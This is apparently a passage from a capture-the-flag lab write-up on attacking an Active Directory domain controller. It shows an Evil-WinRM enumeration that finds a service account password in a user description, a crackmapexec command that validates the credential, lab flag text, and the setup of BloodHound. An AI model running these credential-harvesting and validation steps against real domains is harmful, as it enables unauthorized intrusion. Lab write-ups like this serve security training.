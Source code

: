 > POST{P0W3RV13W_FTW}

### Easter Egg

`SQLService` password is in comment

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainUser -SPN
...
badpasswordtime       : 6/7/2023 9:23:07 AM
description           : My password is MYpassword123#
distinguishedname     : CN=SQL Service,CN=Users,DC=CONTROLLER,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : SQL Service
lastlogontimestamp    : 6/7/2023 9:23:16 AM
userprincipalname     : SQLService@CONTROLLER.local
name                  : SQL Service
objectsid             : S-1-5-21-849420856-2351964222-986696166-1107
samaccountname        : SQLService
...
```

Validate password

```bash
┌──(kali㉿kali)-[~/thm]
└─$ cme smb 10.10.104.42 -u 'SQLService' -p 'MYpassword123#'
SMB         10.10.104.42    445    DOMAIN-CONTROLL  [*] Windows 10.0 Build 17763 x64 (name:DOMAIN-CONTROLL) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.10.104.42    445    DOMAIN-CONTROLL  [+] CONTROLLER.local\SQLService:MYpassword123# (Pwn3d!)
```

> Be sure to use `samaccountname` value as user to login

## Enumeration w/ Bloodhound
---

### Start BloodHound

**Start Neo4j**

```bash
sudo neo4j console
```

How to recover neo4j password : https://neo4j.com/docs/operations-manual/current/configuration/password-and-user-recovery/

> Connect to the `system` database using Cypher shell. Alternatively, **log into Neo4j Browser**.

**Start Bloodhound**

```bash
bloodhound
```
